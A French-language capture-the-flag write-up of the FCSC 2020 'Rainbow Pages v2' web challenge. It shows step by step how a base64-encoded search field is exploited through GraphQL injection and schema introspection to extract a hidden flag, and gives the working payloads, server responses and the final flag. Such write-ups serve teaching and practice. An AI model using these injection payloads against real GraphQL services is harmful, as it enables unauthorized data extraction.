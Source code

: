 # Web - Rainbow Pages v2
![énoncé](images/web_rainbow2.jpg)  
La page du challenge :  
![page du challenge](images/web_rainbow2_challenge.jpg)  
Comme pour tout challenge web , on commence par regarder la source de la page mais également ``robots.txt`` et ``sitemap.xml``.  
Rien d'intéressant.  
  
On nous propose de rechercher un chef cuisinier, on teste avec ``a`` :  
![test avec a](images/web_rainbow2_test-a.jpg)  
Le service nous sort plusieurs chef.  
On teste avec ``b``. On nous propose des chefs différents.  
  
On ouvre BurpSuite pour voir à quoi ressemblent ces requêtes.  
```
GET /index.php?search=YQ== HTTP/1.1
Host: challenges2.france-cybersecurity-challenge.fr:5007
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://challenges2.france-cybersecurity-challenge.fr:5007/
DNT: 1
Connection: close
Cookie: PHPSESSID=c95d0fc6033a4e7c5bdcd0210c8ad992
```
Et la réponse :  
```
HTTP/1.1 200 OK
Content-Length: 1160
Content-Type: text/html; charset=UTF-8
Date: Thu, 30 Apr 2020 19:58:51 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
X-Powered-By: PHP/7.4.5
Connection: close

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```
  
On remarque que notre recherche est encodée en base64 et passée en paramètre à notre requête : ``GET /index.php?search=YQ== HTTP/1.1``  
Si on décode ce base64, on obtient ``a``. Donc contrairement à Rainbow Pages, nous n'avons aucun indice (on peut penser que le développeur a gardé GraphQL).  
  
Ce qu'il nous faut :
* mettre en commentaire la fin de la requête, car on ignore ce qu'elle contient
* sortir des filtres et des sélections à coup de ``)``, ``]`` et ``}``
* trouver un moyen d'enchaîner plusieurs requêtes (comme un ``UNION``)
* connaître le nom de la table et du champs que l'on recherche
  
Un petit tour sur la [documentation](https://graphql.org/learn) et dès la 2ème page, on a notre réponse sur le commentaire :  
```
{
  hero {
    name
    # Queries can have comments!
    friends {
      name
    }
  }
}
```
En regardant les réponses du serveur, on peut déduire que pour enchaîner plusieurs requêtes il suffit de les séparer par une virgule.  
  
On peut maintenant commencer !  
  
Pour sortir de la chaîne de caractères, rien de plus simple : ``"``.  
On commence donc avec ``a"#``.  
On l'encode en base64 et on l'envoie. Le serveur nous renvoie une erreur :   
```
{"errors":[{"message":"Syntax Error: Expected Name, found <EOF>","locations":[{"line":1,"column":148}]}]}
```
Donc si on a une erreur similaire à celle-ci, c'est qu'il manque ``)``, ``]`` ou ``}``.  
Alors on les rajoute un par un et dans l'ordre pour ne pas se perdre : ``a")#``.  
Le serveur nous renvoie une autre erreur :   
```
{"errors":[{"message":"Syntax Error: Expected Name, found )","locations":[{"line":1,"column":53}]}]}
```
Ainsi, si on a l'erreur ``Syntax Error: Expected Name, found <EOF>``  ou une erreur en rapport avec ``<EOF>`` c'est que l'on a trouvé le bon caractère entre ``)``, ``]`` et ``}`` et qu'il faut en ajouter un.  
Si on a l'erreur ``Syntax Error: Expected Name, found x`` ou en rapport avec ``x`` où x est ``)``, ``]`` ou ``}``, c'est qu'il faut changer entre ``)``, ``]`` ou ``}``.  
Après quelques requêtes, on arrive à ça : ``a"}}]})}#``, et on obtient un résultat totalement différent (c'est bon signe 😉 ):  
```
{"errors":[{"message":"Field \"allCooks\" of type \"CooksConnection\" must have a selection of subfields. Did you mean \"allCooks { ... }\"?","locations":[{"line":1,"column":3}]}]}
```
La requête complète ressemble donc à ça :  
```
{ allCooks( z{ z[ z{ z{ "a"}}]})}#
```
Alors que le serveur s'attend à :  
 ```
{ allCooks( z{ z[ z{ z{ "a"}}]}){x}}#
```
Avec quelque chose à la place de ``x``, mais quoi ?  
Si on reprend le premier challenge Rainbow Pages, la requête était comme ça :  
```
{ allCooks (filter: { firstname: {like: "%a%"}}) { nodes { firstname, lastname, speciality, price }}}
```
A la place de ``x``, on peut donc mettre ``nodes{firstname}`` par exemple.  
On teste :  
```
a"}}]}){ nodes{firstname}}}#
```
Et la réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]}}}
```
Top ! Aucune erreur !  
  
Maintenant, on va essayer d'effectuer une deuxième requête en séparant les deux requêtes par une virgule :  
```
a"}}]}){ nodes{firstname}}, allFlags{ nodes{flag}} }#
```
La réponse du serveur :  
```
{"errors":[{"message":"Cannot query field \"allFlags\" on type \"Query\". Did you mean \"allCooks\"?","locations":[{"line":1,"column":79}]}]}
```
La table ``allFlags`` n'existe pas, le/les créateur/s du challenge ont choisi un nom différent par rapport au premier Rainbow Pages. Il faudrait donc lister les tables.  
On retourne sur la documentation [ici](https://graphql.org/learn/introspection/) et on trouve notre bonheur [là](https://graphql.org/learn/introspection/).  
![documentation sur l'introspection](images/web_rainbow2_schema-types-name.jpg)  
On peut donc tester avec ça :  
```
a"}}]}){ nodes{firstname}}, __schema{ types{name}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"__schema":{"types":[{"name":"Query"},{"name":"Node"},{"name":"ID"},{"name":"Int"},{"name":"Cursor"},{"name":"CooksOrderBy"},{"name":"CookCondition"},{"name":"String"},{"name":"CookFilter"},{"name":"IntFilter"},{"name":"Boolean"},{"name":"StringFilter"},{"name":"CooksConnection"},{"name":"Cook"},{"name":"CooksEdge"},{"name":"PageInfo"},{"name":"FlagNotTheSameTableNamesOrderBy"},{"name":"FlagNotTheSameTableNameCondition"},{"name":"FlagNotTheSameTableNameFilter"},{"name":"FlagNotTheSameTableNamesConnection"},{"name":"FlagNotTheSameTableName"},{"name":"FlagNotTheSameTableNamesEdge"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
```
``FlagNotTheSameTableName`` semble intéressant x).  
On liste maintenant les champs de cette table :  
```
a"}}]}){ nodes{firstname}}, __type( name:"FlagNotTheSameTableName") { fields{name}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"__type":{"fields":[{"name":"nodeId"},{"name":"id"},{"name":"flagNotTheSameFieldName"}]}}}
```
  
Comme pour la table ``Cook``, il faut rajouter ``all`` au début et un ``s`` à la fin de ``FlagNotTheSameTableName`` comme ceci : ``allFlagNotTheSameTableNames``  
Et notre requête finale donne :  
```
a"}}]}){nodes{firstname}}, allFlagNotTheSameTableNames{ nodes{flagNotTheSameFieldName}} }#
```
La réponse du serveur :  
```
{"data":{"allCooks":{"nodes":[{"firstname":"Trycia"},{"firstname":"Paula"}]},"allFlagNotTheSameTableNames":{"nodes":[{"flagNotTheSameFieldName":"FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}"}]}}}
```
  
**FLAG : FCSC{70c48061ea21935f748b11188518b3322fcd8285b47059fa99df37f27430b071}**